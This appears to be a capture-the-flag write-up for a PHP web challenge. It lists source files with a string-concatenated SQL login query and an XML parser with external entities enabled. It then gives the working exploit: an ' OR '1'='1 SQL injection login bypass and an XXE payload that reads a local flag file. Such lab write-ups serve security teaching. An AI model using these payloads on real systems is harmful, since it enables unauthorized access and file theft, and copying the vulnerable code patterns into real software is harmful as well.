


# s3cr3t_w3b

## Files Provided

```text
├── docker-compose.yml
├── Dockerfile
├── flag.txt
├── includes
│   └── db.php
├── public
│   ├── api.php
│   ├── index.php
│   └── login.php
└── sql
    └── init.sql
```

`api.php`:

```php
<?php
session_start();

header('Content-Type: application/json');

if (!isset($_SESSION['logged_in']) || !$_SESSION['logged_in']) {
    http_response_code(401);
    echo json_encode(['error' => 'Not authenticated']);
    exit();
}

if ($_SERVER['REQUEST_METHOD'] === 'GET') {
    http_response_code(200);
    echo json_encode(['status' => 'authenticated', 'user' => $_SESSION['username'] ?? 'unknown']);
    exit();
}

$xml = file_get_contents('php://input');

if (empty($xml)) {
    http_response_code(400);
    echo json_encode(['error' => 'No XML data provided']);
    exit();
}

$dom = new DOMDocument();
$dom->resolveExternals = true;
$dom->substituteEntities = true;

if (!@$dom->loadXML($xml, LIBXML_DTDLOAD | LIBXML_NOENT)) {
    http_response_code(400);
    echo json_encode(['error' => 'Invalid XML format']);
    exit();
}

// Return the processed XML
header('Content-Type: application/xml');
echo $dom->saveXML();

?>
```

`index.php`:

```php
<!doctype html>
<html lang="zh-TW">
<head>
<meta charset="utf-8">
<title>XML Viewer</title>
<style>
body {
 font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
 background: #f0f2f5;
 display: flex;
 justify-content: center;
 align-items: center;
 min-height: 100vh;
 margin: 0;
 padding: 20px;
 box-sizing: border-box;
}
.container {
 background: #fff;
 padding: 30px;
 border-radius: 12px;
 box-shadow: 0 8px 20px rgba(0,0,0,0.1);
 width: 100%;
 max-width: 600px;
 text-align: center;
}
h1 {
 margin-bottom: 20px;
 color: #333;
}
.file-input-wrapper {
 margin-bottom: 15px;
}
input[type="file"] {
 padding: 10px;
 border: 2px dashed #007BFF;
 border-radius: 8px;
 background: #f8f9fa;
 width: 100%;
 box-sizing: border-box;
}
button {
 padding: 10px 20px;
 background: #007BFF;
 color: #fff;
 border: none;
 border-radius: 8px;
 cursor: pointer;
 font-size: 16px;
 transition: background 0.3s;
}
button:hover {
 background: #0056b3;
}
button:disabled {
 background: #ccc;
 cursor: not-allowed;
}
.result-container {
 margin-top: 20px;
}
pre {
 text-align: left;
 background: #f8f9fa;
 padding: 15px;
 border-radius: 8px;
 max-height: 400px;
 overflow-y: auto;
 white-space: pre-wrap;
 word-break: break-word;
 border: 1px solid #e9ecef;
}
.error {
 color: #dc3545;
 background: #f8d7da;
 border-color: #f5c6cb;
}
.success {
 color: #155724;
 background: #d4edda;
 border-color: #c3e6cb;
}
.loading {
 color: #856404;
 background: #fff3cd;
 border-color: #ffeaa7;
}
.auth-message {
 margin-top: 10px;
 padding: 10px;
 border-radius: 5px;
 font-size: 14px;
}
</style>
</head>
<body>
<div class="container">
 <h1>XML Viewer</h1>
 
 <div id="authStatus" class="auth-message" style="display: none;"></div>
 
 <form id="xmlForm">
  <div class="file-input-wrapper">
   <input type="file" id="xmlFile" accept=".xml,.txt">
  </div>
  <button type="submit" id="submitBtn">Upload and Parse</button>
 </form>
 
 <div class="result-container">
  <pre id="result">Select an XML file and click "Upload and Parse" to view the formatted XML.</pre>
 </div>
</div>

<script>
window.addEventListener('load', async () => {
 try {
  const response = await fetch('api.php', {
   method: 'GET',
   credentials: 'include'
  });
  
  const authStatus = document.getElementById('authStatus');
  
  if (response.status === 401) {
   authStatus.textContent = 'Authentication required. Redirecting to login...';
   authStatus.className = 'auth-message error';
   authStatus.style.display = 'block';
   
   setTimeout(() => {
    window.location.href = 'login.php';
   }, 2000);
   return;
  }
  
  if (response.ok) {
   authStatus.textContent = 'Authentication successful';
   authStatus.className = 'auth-message success';
   authStatus.style.display = 'block';
   
   setTimeout(() => {
    authStatus.style.display = 'none';
   }, 3000);
  }
 } catch (err) {
  console.error('Authentication check failed:', err);
  const authStatus = document.getElementById('authStatus');
  authStatus.textContent = 'Authentication check failed. Redirecting to login...';
  authStatus.className = 'auth-message error';
  authStatus.style.display = 'block';
  
  setTimeout(() => {
   window.location.href = 'login.php';
  }, 2000);
 }
});

const form = document.getElementById('xmlForm');
const result = document.getElementById('result');
const submitBtn = document.getElementById('submitBtn');

form.addEventListener('submit', async (e) => {
 e.preventDefault();
 
 const fileInput = document.getElementById('xmlFile');
 if (!fileInput.files.length) {
  alert('Please select an XML file');
  return;
 }
 
 const file = fileInput.files[0];
 
 submitBtn.disabled = true;
 submitBtn.textContent = 'Processing...';
 result.textContent = 'Processing XML file...';
 result.className = 'loading';
 
 try {
  const content = await file.text();
  
  const response = await fetch('api.php', {
   method: 'POST',
   headers: { 'Content-Type': 'application/xml' },
   body: content,
   credentials: 'include'
  });
  
  if (response.status === 401) {
   result.textContent = 'Authentication failed. Redirecting to login...';
   result.className = 'error';
   setTimeout(() => {
    window.location.href = 'login.php';
   }, 2000);
   return;
  }
  
  const text = await response.text();
  
  if (response.ok) {
   result.textContent = text;
   result.className = 'success';
  } else {
   result.textContent = 'Error: ' + text;
   result.className = 'error';
  }
  
 } catch (err) {
  result.textContent = 'Error: ' + err.message;
  result.className = 'error';
 } finally {
  submitBtn.disabled = false;
  submitBtn.textContent = 'Upload and Parse';
 }
});

document.getElementById('xmlFile').addEventListener('change', function(e) {
 const file = e.target.files[0];
 if (file) {
  result.textContent = `Selected file: ${file.name} (${(file.size / 1024).toFixed(2)} KB)`;
  result.className = '';
 }
});
</script>
</body>
</html>
```

`login.php`:

```php
<?php
session_start();

$host = 'db';
$db   = 'login_db';
$user = 'root_users';
$pass = 'root'; 
$charset = 'utf8mb4';

$dsn = "mysql:host=$host;dbname=$db;charset=$charset";
$options = [
    PDO::ATTR_ERRMODE            => PDO::ERRMODE_EXCEPTION,
    PDO::ATTR_DEFAULT_FETCH_MODE => PDO::FETCH_ASSOC,
];

try {
    $pdo = new PDO($dsn, $user, $pass, $options);
} catch (PDOException $e) {
    die("Database connection failed: " . $e->getMessage());
}

$user_data = null;
$error = null;

if (!empty($_POST['username']) && !empty($_POST['password'])) {
    $username = $_POST['username'];
    $password = $_POST['password'];

    $query = "SELECT * FROM users WHERE username = '$username' AND password = '$password'";

    try {
        $stmt = $pdo->query($query);
        $user_data = $stmt->fetch();
    } catch (PDOException $e) {
        error_log("SQL Error: " . $e->getMessage());
        $user_data = false;
        $error = "Database error occurred";
    }

    if ($user_data) {
        $_SESSION['logged_in'] = true;
        $_SESSION['username'] = $user_data['username'];
        $_SESSION['role'] = $user_data['role'] ?? 'user';
        header('Location: index.php');
        exit();
    } else {
        $error = $error ?? "Invalid username or password!";
    }
}
?>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Login - XML Parser</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            max-width: 400px;
            margin: 100px auto;
            padding: 20px;
            background-color: #f5f5f5;
        }
        .login-container {
            background: white;
            padding: 30px;
            border-radius: 8px;
            box-shadow: 0 2px 10px rgba(0,0,0,0.1);
        }
        h2 {
            text-align: center;
            color: #333;
            margin-bottom: 30px;
        }
        .form-group {
            margin-bottom: 20px;
        }
        label {
            display: block;
            margin-bottom: 5px;
            color: #555;
        }
        input[type="text"], input[type="password"] {
            width: 100%;
            padding: 10px;
            border: 1px solid #ddd;
            border-radius: 4px;
            box-sizing: border-box;
        }
        button {
            width: 100%;
            padding: 12px;
            background-color: #007bff;
            color: white;
            border: none;
            border-radius: 4px;
            cursor: pointer;
            font-size: 16px;
        }
        button:hover {
            background-color: #0056b3;
        }
        .error {
            color: #dc3545;
            margin-top: 10px;
            padding: 10px;
            background-color: #f8d7da;
            border: 1px solid #f5c6cb;
            border-radius: 4px;
        }
    </style>
</head>
<body>
    <div class="login-container">
        <h2>Login to XML Parser</h2>
        
        <form method="POST">
            <div class="form-group">
                <label for="username">Username:</label>
                <input type="text" id="username" name="username" required>
            </div>
            
            <div class="form-group">
                <label for="password">Password:</label>
                <input type="password" id="password" name="password" required>
            </div>
            
            <button type="submit">Login</button>
        </form>
        
        <?php if (isset($error)): ?>
            <div class="error">
                <?php echo htmlspecialchars($error); ?>
            </div>
        <?php endif; ?>
        
    </div>
</body>
</html>
```

`Dockerfile`:

```dockerfile
FROM php:8.2-apache


RUN docker-php-ext-install pdo pdo_mysql

RUN a2enmod rewrite

COPY public/ /var/www/html/
COPY includes/ /var/www/html/includes/
COPY flag.txt /var/www/html/

WORKDIR /var/www/html/

EXPOSE 80
```

## Approach

Firstly, a login screen is displayed.



```php
$query = "SELECT * FROM users WHERE username = '$username' AND password = '$password'";
```

This is prone to **SQLi**. Submitting the following worked:

```text
username: ' OR '1'='1
password: ' OR '1'='1
```



After logging in, a page opens which accepts an XML file and parses it. This is a sink for **XXE Injection**

Working payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "file:///var/www/html/flag.txt">
]>
<root>
  <data>&xxe;</data>
</root>
```
